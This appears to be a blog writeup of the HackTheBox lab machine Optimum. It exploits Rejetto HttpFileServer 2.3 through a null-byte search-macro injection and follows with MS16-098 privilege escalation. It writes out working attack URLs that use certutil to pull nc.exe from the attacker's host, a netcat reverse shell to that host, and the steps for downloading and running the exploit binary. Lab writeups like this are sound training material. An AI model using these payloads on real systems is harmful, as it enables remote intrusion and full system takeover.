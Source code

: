 ```yaml
---
layout: default
title: HackTheBox - Beep Writeup
permalink: /htb/optimum
---
```


# Optimum

> **Name:** Optimum
>
> **Creator:** [ch4p](https://www.hackthebox.eu/home/users/profile/1)
>
> **Difficulty:** Easy


## Intro

[Optimum](https://www.hackthebox.eu/home/machines/profile/6) was released on 18 Mar 2017 and it is an easy rated Windows box, which makes it a good place for beginners. I originally completed this when it had already retired and I was making my way through some of the older boxes during a break from active boxes. When I originally completed this I vaguely remember having issues getting the privilege escalation to work. So this is a good opportunity to revisit and figure out what was causing those issues. 


## Getting Started

As is always the case we start off with performing a full port scan against the box to  get an idea of what services are available. My preferred command is shown below:

``` nmap -p- 10.10.10.8 -sC -sV -v -oA full-scan ```

This command runs a SYN, or half-open scan against all ports. With the additional flags running default scripts, version detection and creating an output file in various formats. 

The scan gives the following results:

![Scan Results]({{site.url}}/assets/optimum/scan-results.png)

So yeah! Not a lot to go on so I guess we need to dive into this web app.


## Enumeration

The first thing I like to do with a web app is to have a browse around as a user and see what there is. In this case it is just a simple file server. 

![File Server]({{site.url}}/assets/optimum/fileserver.png)

By clicking on the server information link at the bottom of the page it directs you to the rejetto website. Valuable information, as now we know it is a rejetto httpfileserver 2.3. It is worth checking if this has any known public exploits. 
![Searchsploit]({{site.url}}/assets/optimum/searchsploit.png)

Quite a few for the version in use, and most of them are remote command execution as well. This could be just the attack path needed to get a foothold. A quick look at a few of the exploits give an idea of what the vulnerability is and how it is exploited. With 34668.txt result from searchsploit giving a good overview of the problem.

>issue exists due to a poor regex in the file ParserLib.pas
>
>```
>function findMacroMarker(s:string; ofs:integer=1):integer;
>begin result:=reMatch(s, '\{[.:]|[.:]\}|\|', 'm!', ofs) end;
>```
>
>it will not handle null byte so a request to 
>
>```http://localhost:80/?search=%00{.exec|cmd.} ```
>
>will stop regex from parse macro , and macro will be executed and remote code injection happen.

This means that if a crafted search query is performed it is possible to break the function and execute your own code. How the other scripts exploit this is by creating a Visual Basic script to download netcat from a webserver in the first request, then a second request to execute that script, and finally a third request to run the netcat reverse shell command. 

## Exploitation

Now rather than diving straight into using one of those scripts lets have a play with it manually and get it working! A nice simple method I use to confirm code execution is to get the target to run the ping command, and watch for the response in tcpdump or wireshark. Looking at the information about the exploit, this should be as easy as:

```https://10.10.10.8/?search=%00{.exec|ping.exe 10.10.14.9.}```

Just remember that if you are not submitting this in a browser to URL encode the space. When you check tcpdump or wireshark you should see the ICMP request and responses. 

![wireshark]({{site.url}}/assets/optimum/wireshark.png)

So with code execution proven, now it is a simple matter of getting a shell up and running. First up is getting netcat uploaded, in previous write-ups I have used a SMB share to get files onto a target. This time we will use certutil. A native binary on Windows which is used for certificate management, but it has the rather handy feature of being able to download files when you use the command with the following flags:

``` certutil -urlcache -split -f <hosting location> <output file> ```

With this exploit the command looks like this:

``` http://10.10.10.8/?search=%00{.exec|certutil.exe -urlcache -split -f http://10.10.14.9/nc.exe C:\windows\temp\nc.exe.} ```

Where the output directory is somewhere that tends to be world writeable. Now all that is needed is to setup a webserver to host the file. My go to is a simple python based one, and I recently moved to the Python3 implementation which can be used with the following command:

``` python3 -m http.server 80 ```

This will setup a webserver on port 80 in the directory you run the command from, so make sure you don't drop it in your root directory or anything silly like that! Now the certutil command can be ran, and the webserver can be monitored for the incoming request. 

![Web Server]({{site.url}}/assets/optimum/simpleserver.png)

Then a listener can be setup using netcat, and the exploit used to launch the reverse shell with the following command:

``` http://10.10.10.8/?search=%00{.exec|C:\windows\temp\nc.exe -e cmd.exe 10.10.14.9 443.} ```

Which will instantly give a shell with command prompt.

![User Shell]({{site.url}}/assets/optimum/user-shell.png)

## Privilege Escalation

Running ``` syteminfo ``` gives a quick overview of the target, and in this case we can see it is Server 2012 R2 and has had 31 hotfixes installed. 

![Systeminfo]({{site.url}}/assets/optimum/systeminfo.png)

If you want to get your hands really dirty you can sit and manually check which patches haven't been applied and see if any of those fix privilege escaltion vulnerabilities. Or you can use [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester), which will take the output of Systeminfo and work out what is missing. This gives an indication of what vulnerabilities are potentially present on the system.

As many updates have been released since this box was launched there is going to be a lot of output with these tools. But the intended path is going to be something from before Mar 2017 in all likelihood. This is a bigger issue if you use the newer version - [wesng](https://github.com/bitsadmin/wesng) which is more useful for modern OS like Windows 10. 

The output from this is huge! Now it's a case of going through the results and finding which one is the best fit. This can take some time, but odds are a lot of these will work. 

The one I used is MS16-098 and can be found in searchsploit. 

![Searchsploit]({{site.url}}/assets/optimum/searchsploit-privesc.png)

Checking over 41020.c there is a comment at the top that links to a pre-compiled binary for the exploit and as this is one of the curated Offensive Security exploits there is an associated level of trust you can place in it, as normally I wouldn't recommend blindly downloading and executing exploits you haven't checked over and compiled yourself. Just so you don't break something!

The binary can be got from:

> https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe

This can be done quickly from the command prompt with wget. 

![Download Exploit]({{site.url}}/assets/optimum/exploit-download.png)

It is then transferred to the target using the certutil method that was used previously. 

``` certutil -urlcache -split -f http://10.10.14.9/ms16-098.exe C:\Users\kostas\Desktop\ms16-098.exe ```

This can then be executed to give us that lovely System shell!

![Privesc]({{site.url}}/assets/optimum/privesc.png)

No issues this time around with the privesc, I have a feeling that the first time around I used a different exploit and probably got stuck in a 32bit vs 64bit issue without realising!
